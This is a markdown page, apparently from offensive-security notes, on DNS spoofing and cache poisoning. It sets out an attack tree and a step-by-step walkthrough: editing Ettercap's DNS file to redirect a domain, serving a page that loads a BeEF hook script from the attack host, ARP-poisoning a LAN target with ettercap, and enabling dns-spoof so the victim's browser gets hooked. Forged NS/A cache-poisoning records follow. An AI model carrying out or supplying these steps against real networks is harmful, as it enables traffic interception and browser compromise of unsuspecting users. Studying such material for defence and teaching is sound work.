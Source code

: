 # DNS spoofing

## Attack tree

```text
1 Hijack a local DNS (OR)
    1.1 Install malware on host
    1.2 Change local DNS settings for a redirect
2 Poison DNS cache (OR)
    2.1 Install a dns spoofing tool such as dns-spoof or ManOnTheSideAttack-DNS Spoofing (AND)
    2.2 Sniff the network traffic and intercept all DNS queries matching a given domain name from the victim (AND)
    2.3 Forge and send a valid response (the corrupt data gets cached by the DNS name server) (AND)
        2.3.1 Redirect the target domain's name server (cache an additional A-record for ns.target.example) (OR)
        2.3.2 Redirect the NS record to another target domain (cache unrelated authority information for target.example's NS-record)
    2.4 When the cache is poisoned (if it is a major DNS server, it can poison the caches of DNS servers 
    maintained by internet service providers), launch further attacks
3 Hijack a Router DNS (OR)
    3.1 Compromise router (AND) 
        3.1.1 Default passwords (OR)
        3.1.2 Use firmware vulnerabilities
    3.2 Overwrite DNS settings
4 Rogue DNS Server (OR)
    4.1 Compromise a DNS server (AND) 
    4.2 Change DNS records to redirect DNS requests
5 Use DNSSEC vulnerabilities
    5.1 Lack of data confidentiality (Sniff and use for further attacks)
    5.2 Misconfigured DNSSEC
    5.3 Zone enumeration (Only NSEC, NSEC3 and NSEC5 publish hashed records of hostnames)
```

## Examples

### DNS spoofing and cache poisoning

1. Modify the `/etc/ettercap/etter.dns` and add an entry to the file for the domain name "site.com" and have it point 
to the attack host.

```text
$ echo "site.com A <IP address attack host>" | sudo tee -a /etc/ettercap/etter.dns site.com A <IP address attack host>
```
2. Create a web page named `index.html` in the `/tmp` directory of the attack host to load a JavaScript BeEF hook 
using the BeEF `hook.js` file:

```html
<HTML>
    <HEAD>
        <script src="http://site.com:3000/hook.js"></script>
    </HEAD>
    <BODY>
        You have been hooked!
    </BODY>
</HTML>
```

This is the web page the user will be directed to when they try to connect to `site.com`.

3. Use either the Python http server module to host the web page on port 80, OR move the file to `/var/www/html/` 
and start the apache2 server.

```text
# python -m SimpleHTTPServer 80
# service apache2 start
```

4. Launch and login to BeEF
5. Open a second terminal and use Nmap to identify other hosts by just using ARP packets by specifying the `-sn` flag 
to disable port scanning and using the `-n` flag to stop IP address resolution: 

```text
# sudo nmap -n -sn <IP address attack host>/24
```

6. With a target host system found (<IP address target>) on the local network, find the gateway address for the local 
network using the `ip route` command:

```text
# ip route
```

7. Establish an ARP poisoning session between the local network gateway (<IP address gateway>) and the target 
(<IP address target>)

```text
# ettercap -M arp:remote -T -q /<IP address gateway>// /<IP address target>//
```

* The `-M` flag sets up for MiTM (on-path), using the remote arp technique. 
* The `-T` argument puts it in text-only mode. 
* The `-q` argument prevents Ettercap from printing the full packet contents, to make the output more readable. 
* The last part is the gateway and target in the format: `MAC address/IPv4 addresses/IPv6 addresses/Ports`. Not using 
the MAC adress, IPv6 adressess or ports explains the blanks and the slash delimiters.

8. Enable the DNS plugin. Type `p` to list the plugins. Choose the `dns-spoof` plugin. When it is active and the 
victim navigates to the web page `http://site.com/index.html`, they will see the spoofed and hooked page. Inside
the terminal with Ettercap, you can see the spoof succeed.
9. To exit Ettercap, press q.
10. In BeEF, see the target machine under the Online Browsers tab. From here, use BeEF to exploit the target further.

### Forging redirection records for poisoning

Redirect the target domain's name server (cache an additional A-record for ns.target.example:

```text
        +---------------------+
        | ANSWER              | (no response)
        +---------------------+
        | AUTHORITY           | adversary.example. 3600 IN NS ns.target.example.
        +---------------------+
        | ADDITIONAL          | ns.target.example. IN A xxx.xxx.xxx.xxx
        +---------------------+
```

Redirect the NS record to another target domain (cache unrelated authority information for target.example's NS-record):

```text
        +---------------------+
        | ANSWER              | (no response)
        +---------------------+
        | AUTHORITY           | target.example. 3600 IN NS ns.adversary.example.
        +---------------------+
        | ADDITIONAL          | ns.adversary.example. IN A xxx.xxx.xxx.xxx
        +---------------------+
```

## Notes

* DNS spoofing can be achieved by DNS redirection, an attack in which an adversary modifies a DNS server in order to 
redirect a specific domain name to a different IP address. In many cases, the new IP address will be for a server 
controlled by the adversary which contains files infected with malware. 
* Cache poisoning is another way to achieve DNS spoofing, without relying on DNS hijacking (physically taking over the 
DNS settings). An adversary inserts a forged DNS entry, containing an alternative IP destination for the same domain 
name, after which the DNS server resolves the domain to the spoofed website, until the cache is refreshed.
* DNS server spoofing attacks are often used to spread computer worms and viruses.
* This kind of attack is also often used for pharming.

## Tools

* [Ettercap](https://www.ettercap-project.org)
* [BeEF XSS](https://www.kali.org/tools/beef-xss/)

## Scripts

* [Hijack local DNS](https://github.com/tymyrddin/ymrir/tree/master/dns_spoofer)